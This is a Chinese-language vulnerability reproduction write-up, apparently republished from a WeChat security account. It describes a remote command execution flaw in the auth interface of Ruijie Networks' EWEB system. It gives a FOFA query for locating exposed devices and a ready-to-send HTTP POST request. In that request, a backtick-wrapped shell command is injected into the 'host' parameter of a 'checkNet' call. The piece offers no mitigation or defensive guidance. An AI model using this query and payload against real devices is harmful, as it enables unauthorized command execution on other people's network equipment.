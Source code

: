 ## 1. 锐捷网络-EWEB系统简介

微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发

锐捷网络-EWEB系统

## 2.漏洞描述

锐捷网络-EWEB系统auth接口存在远程命令执行漏洞

CVE编号:

CNNVD编号:

CNVD编号:

## 3.影响版本

锐捷网络-EWEB系统

![锐捷网络-EWEB系统auth接口存在远程命令执行漏洞](%E9%94%90%E6%8D%B7%E7%BD%91%E7%BB%9C-EWEB%E7%B3%BB%E7%BB%9Fauth%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640.png)锐捷网络-EWEB系统auth接口存在远程命令执行漏洞

## 4.fofa查询语句

body="cgi-bin/luci" && body="#f47f3e"

## 5.漏洞复现

```
POST /cgi-bin/luci/api/auth HTTP/1.1
Host: XXXXXXXXXX.com
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"method":"checkNet","params":{"host":"`echo c149136B>666666.txt`"}}
```



漏洞数据包：

![null](%E9%94%90%E6%8D%B7%E7%BD%91%E7%BB%9C-EWEB%E7%B3%BB%E7%BB%9Fauth%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640-1739327617317-1.png)

![null](%E9%94%90%E6%8D%B7%E7%BD%91%E7%BB%9C-EWEB%E7%B3%BB%E7%BB%9Fauth%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640-1739327617317-2.jpeg)
